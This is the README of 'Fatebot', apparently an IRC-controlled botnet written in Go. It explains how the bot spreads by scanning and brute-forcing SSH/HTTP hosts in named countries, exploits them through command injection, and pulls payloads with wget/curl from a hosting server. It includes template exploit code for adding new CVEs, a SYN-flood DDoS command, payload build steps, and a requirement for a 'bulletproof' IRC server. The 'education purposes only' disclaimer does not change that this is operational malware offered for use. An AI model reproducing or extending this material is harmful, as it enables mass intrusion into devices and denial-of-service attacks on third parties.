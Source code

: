 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/just_add_Fate_txt.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot">
    		<img src="https://img.shields.io/badge/version-v0.8.1.3-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (old github name is R4bin) the author of Fatebot.
	<br>
		I create this project for education purposes only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
The spread feature of this bot will scan on the default SSH and HTTP port. Option about the scan feature in this bot is to scan on CN, HK, KR, and BR network or you can do a random scan or even you can add your mods, all of these is up to you. This bot will brute-force attack and exploit the target device, server, etc that's run Linux or uses MIPS x32 architecture. The loader will use "wget" or "curl" as a default loader for downloading payload from The FTP server or any option in any server type that you can host your payload, not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's used in this botnet mostly will be a command injection (TBH it's all of it LMAO). You can add more new exploits if you want, but I recommend it to be a command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and flexible to the configuration as much as I can. If 2 examples down below is not enough you can see more example in "internal/exploit.go".

	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in term of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header-set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature mostly will play around with The Transport Layer, but also have an application and The Network Layer too.
All of the attack vectors except "HTTP" DDoS vectors will be random source ports and windows size automatically, but the DST port will let the bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, dos example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scanned will be only x32 arch.
	# The MIPS architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
